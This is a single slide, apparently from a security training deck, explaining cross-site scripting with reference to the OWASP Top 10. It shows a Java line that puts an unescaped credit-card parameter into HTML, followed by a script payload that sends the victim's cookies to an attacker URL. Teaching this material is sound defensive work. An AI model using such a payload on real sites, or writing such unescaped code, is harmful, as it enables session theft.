

# Cross-Site Scripting (XSS)
Security Concerns
XSS is the second most prevalent issue in the OWASP Top 10, and is found in around two-thirds of all applications.
Automated tools can detect and exploit all three forms of XSS, and there are freely available exploitation frameworks.

Example Attack Scenario
Application uses untrusted data in the construction of the following HTML snippet without validation or escaping:
  (String) page += "<input name='creditcard' type='TEXT’
  value='" + request.getParameter("CC") + ”’>”;
Attacker modifies the ‘CC’ parameter:
  '><script>document.location=
  'http://www.attacker.com/cgi-bin/cookie.cgi?
  foo='+document.cookie</script>'
48